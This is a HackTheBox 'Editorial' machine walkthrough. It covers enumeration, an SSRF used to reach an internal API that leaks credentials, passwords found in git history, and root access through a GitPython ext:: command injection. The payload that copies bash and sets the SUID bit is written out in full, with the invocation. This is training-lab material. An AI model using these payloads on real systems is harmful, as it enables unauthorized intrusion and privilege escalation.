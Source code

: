 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Editorial machine Walkthrough"
date: "2025-01-25"
description: ""
tags: ["Hackthebox", "CVE","OSCP-Preparation" "Machine-Walkthrough"]
cover:
    image: "/writeups/Editorial-Hackthebox/Cover.png"
ShowToc: true
TocOpen: false
---
```




## Enumeration

### Scanning with nmap
All port scanning is being perform with the following command:

```
nmap -p- --min-rate 2500 10.10.11.20 -oN allports.txt
```

The following shows the result of the command:
![](/writeups/Editorial-Hackthebox/1.png)
It shows port 22, 80 as open. In order to find the version of services, service version enumeration is being performed with the following command. 

```
nmap -p 22,80 10.10.11.20 -sC -sV -O -oN serviceVersion.txt
```

![](/writeups/Editorial-Hackthebox/2.png)



As the web server is running, so the website is being browsed and the following is the hosted web server. 
![](/writeups/Editorial-Hackthebox/3.png)




The following email found, but it was of no use.  
submissions@tiempoarriba.htb

### Directory Enumeration: 

Dirsearch is being used for enumerating all the available directories in the target server.

Command:
```
dirsearch http://editorial.htb/
```

![](/writeups/Editorial-Hackthebox/4.png)
As shown, the two directories `/about` and `/upload` are being found.

The `/upload` directory has a form to upload the book information. 
![](/writeups/Editorial-Hackthebox/5.png)


Tried the file upload vulnerability in the file upload. But it is not rendering the uploaded file in the web page, instead, it is serving the uploaded file for downloading. 

There's another option to upload the URL of the book cover. This feature has an SSRF vulnerability. 
This can be confirmed by running a `nc` listener, and sending request to our own listener in the book cover URL as shown below:
![](/writeups/Editorial-Hackthebox/6.png)


A request can be sent to the internal server to get information from there. So, a request is being sent to `127.0.0.1:80` as shown:

It takes a bit of time, and responded with a jpeg file. For enumerating other ports, I tried enumerating a few other ports, but all were giving the same jpeg file as shown:
![](/writeups/Editorial-Hackthebox/7.png)


### Enumerating the Open Ports in the Internal Server with FFUF:

Replaced the port number in burp with `FUZZ` as shown below:
![](/writeups/Editorial-Hackthebox/8.png)

Saved the burp request in file called `req.txt` and run ffuf with the following command:

```
ffuf -request req.txt -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg"
```

This will use the req.txt to fuzz the port with the wordlist of sequence from 1 to 65535 and will not show all the responses containing the regex `1630734277837_ebe62757b6e0.jpeg`. 

Port 5000 was sending a different response. That means, this port is open. 

Sent request to port 5000 as shown below:
![](/writeups/Editorial-Hackthebox/9.png)

It gave me a URL to download a file. 

![](/writeups/Editorial-Hackthebox/10.png)

The file contains a list of end points. I sent request to the `/api/latest/metadata/messages/authors` endpoint, which again gave ma another URL. I visited that URL and got a password of `dev` user as shown:
![](/writeups/Editorial-Hackthebox/11.png)

### Getting Access of the Machine

The password was used to get access of the machine through SSH as the `dev` user. 

### Literal Movement:

The `apps` directory has a .git directory, which contains the different version of the code. 

There were different files which were stagged but not committed as shown:

Command Used:
```
git status
```

![](/writeups/Editorial-Hackthebox/12.png)

The log of git showed interesting commit with message `downgrading prod to dev`:
Command Used:
```
git log
```

![](/writeups/Editorial-Hackthebox/13.png)


This commit is being shown with the command:

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

![](/writeups/Editorial-Hackthebox/14.png)

This showed the password of `prod` user as shown. 

### Privilege Escalation

There's an script, which the prod user can run as the root user as shown:
![](/writeups/Editorial-Hackthebox/15.png)

The following is the content of file:
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Here, the git module has the vulnerability. I searched about python git priv esc and got this:
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

The following can be supplied as the argument to the script for executing command as root:
```
ext::sh -c touch% /tmp/pwned
```

This will create `/tmp/pwned`. 
So, in order to exploit this i run this command, which will copy the root shell and will set its suid bit, we can use that shell later to get root access. 

```python
ext::sh -c cp /bin/bash /tmp/bash; chmod +s /tmp/bash

# we have to add % before each space so it will be like this

ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash

# The final payload will be:

/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash'
```

The following shows the result of this command:

![](/writeups/Editorial-Hackthebox/16.png)
It displayed some kind of error, but we can ignore that as our code executed already. 
I used the following command to interact with the shell and get access as root:
```
/tmp/bash -p
```


Hence, the machine is ROOTED!

